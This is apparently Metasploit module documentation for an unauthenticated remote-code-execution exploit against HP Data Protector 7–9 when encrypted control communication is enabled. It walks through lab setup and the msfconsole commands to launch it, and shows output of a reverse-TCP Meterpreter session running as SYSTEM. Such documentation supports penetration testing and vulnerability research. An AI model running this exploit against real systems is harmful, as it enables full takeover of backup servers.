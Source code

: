 HP Data Protector is an automated backup and recovery software for single-server to enterprise
environments. It provides cross-platform, online backup of data for Microsoft Windows, Unix,
and Linux operating systems.

While the server is using Encrypted Control Communication, HP Data Protector allows a remote
attacker to gain access without authentication, and gain arbitrary code execution under the
context of SYSTEM.


## Vulnerable Application

HP Data Protector versions 7, 8, and 9 are known to be affected.

This module was tested against version 9.0.0 on Windows 2008.

## Verification Steps

**Installing HP Data Protector**

Before installing HP Data Protector, a Windows domain controller is needed. This exploit was tested
against [a Windows Server 2008 R2 SP1 domain controller](https://www.youtube.com/watch?v=Buj9oEgbRt8).

After setting up the domain controller, double-click on the HP Data Protector installer, and you
should see this screen:

![screen_1](https://cloud.githubusercontent.com/assets/13082457/15794665/99a86238-29e4-11e6-8ccd-0e09b0c8a693.png)

Click on **Install Data Protector**. And then the installer should ask you which installation type:

![screen_2](https://cloud.githubusercontent.com/assets/13082457/15794701/de31d07e-29e4-11e6-9410-0b88abe77afe.png)

Make sure to select **Cell Manager**, and click **Next**. Use all default settings.

**Enabling Encrypted Communication**

After the Setup Wizard is finished, we need to enable encrypted communication. First, open the
Data Protector GUI:

![screen_3](https://cloud.githubusercontent.com/assets/1170914/15845344/d3a84ee4-2c37-11e6-821d-fe8002c94686.png)

Click on **Clients**, and the local client from the tree. You should see the **Connection** tab on the
right, click on that.

![screen_4](https://cloud.githubusercontent.com/assets/1170914/15845351/df9929f8-2c37-11e6-9d82-8c519c030a5f.png)

Under the Connection tab, there should be an **Encrypted control communication** checkbox, make
sure that is checked. And then click **Apply**

**Using hp_dataprotector_encrypted_comms**

After the encrypted communication is enabled, you are ready to use
hp_dataprotector_encrypted_comms. Here is what you do:

1. Start msfconsole
2. Do: ```use exploit/windows/misc/hp_dataprotector_encrypted_comms```
3. Do: ```set RHOST [IP ADDRESS]```
4. Do: ```set PAYLOAD [PAYLOAD NAME]```
5. Set other options as needed
6. Do: ```exploit```, and you should receive a session like the following:

```
msf exploit(hp_dataprotector_encrypted_comms) > run

[*] Started reverse TCP handler on 172.16.23.1:4444 
[*] 172.16.23.173:5555 - Initiating connection
[*] 172.16.23.173:5555 - Establishing encrypted channel
[*] 172.16.23.173:5555 - Sending payload
[*] 172.16.23.173:5555 - Waiting for payload execution (this can take up to 30 seconds or so)
[*] Sending stage (957999 bytes) to 172.16.23.173
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.173:49304) at 2016-06-06 22:16:54 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

